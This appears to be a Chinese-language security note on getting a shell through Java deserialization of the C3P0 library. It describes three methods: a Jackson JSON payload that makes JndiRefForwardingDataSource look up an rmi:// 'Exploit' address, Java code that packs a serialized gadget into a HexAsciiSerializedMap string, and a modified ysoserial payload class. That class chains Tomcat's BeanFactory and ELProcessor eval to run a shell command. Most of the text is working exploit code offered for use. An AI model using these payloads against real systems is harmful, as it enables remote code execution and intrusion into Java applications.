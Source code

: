 # c3p0有三种方式getshell

## http base

http base适用于原生反序列化

加载远程静态代码和无参构造方法触发

## jndi

jndi适用于jdk8u191以下支持reference情况

```json
{"object":["com.mchange.v2.c3p0.JndiRefForwardingDataSource",{"jndiName":"rmi://localhost:8088/Exploit", "loginTimeout":0}]}
```

## hex序列化字节加载器

hex序列化字节加载器适用于不出网但是目标依赖有gadget链的情况。

其原理是利用jackson的反序列化时调用userOverridesAsString的setter，在setter中运行过程中会把传入的HexAsciiSerializedMap开头的字符串进行解码并触发原生反序列化。

```java
InputStream in = new FileInputStream("C3P0.ser");
byte[] data = toByteArray(in);
in.close();
String HexString = bytesToHexString(data, data.length);
String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";
System.out.println(poc);

public static byte[] toByteArray(InputStream in) throws IOException {
    byte[] classBytes;
    classBytes = new byte[in.available()];
    in.read(classBytes);
    in.close();
    return classBytes;
}

public static String bytesToHexString(byte[] bArray, int length) {
    StringBuffer sb = new StringBuffer(length);
    for(int i = 0; i < length; ++i) {
        String sTemp = Integer.toHexString(255 & bArray[i]);
        if (sTemp.length() < 2) {
            sb.append(0);
        }

        sb.append(sTemp.toUpperCase());
    }
    return sb.toString();
}
```

## 不出网利用


[JAVA反序列化之C3P0不出网利用](https://mp.weixin.qq.com/s?__biz=MzkzNTI4NjU1Mw==&mid=2247483871&idx=1&sn=56c63dc3f4dc22ad9c61143ee2c484df&chksm=c2b103a9f5c68abfb8e6cb39e81210cce98a3a6850c69b756b7018bc0db829d00af08839d8fc&mpshare=1&scene=23&srcid=1009lg8jEvc5MFXslLojyUud&sharer_sharetime=1644428964407&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

```java
package ysoserial.payloads;


import java.io.PrintWriter;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;

import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import org.apache.naming.ResourceRef;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
yulegeyu modified
 */
@PayloadTest ( harness="ysoserial.test.payloads.RemoteClassLoadingTest" )
@Dependencies( { "com.mchange:c3p0:0.9.5.2" ,"com.mchange:mchange-commons-java:0.2.11"} )
@Authors({ Authors.MBECHLER })
public class C3P0Tomcat implements ObjectPayload<Object> {
    public Object getObject ( String command ) throws Exception {

        PoolBackedDataSource b = Reflections.createWithoutConstructor(PoolBackedDataSource.class);
        Reflections.getField(PoolBackedDataSourceBase.class, "connectionPoolDataSource").set(b, new PoolSource("org.apache.naming.factory.BeanFactory", null));
        return b;
    }

    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            String cmd = "open -a calculator.app";
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','"+ cmd +"']).start()\")"));
            return ref;
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

    }


    public static void main ( final String[] args ) throws Exception {
        PayloadRunner.run(C3P0.class, args);
    }

}
```

小trick:实例化BeanFactory对象调用getObjectInstance可以rce

> 参考
>
> http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/

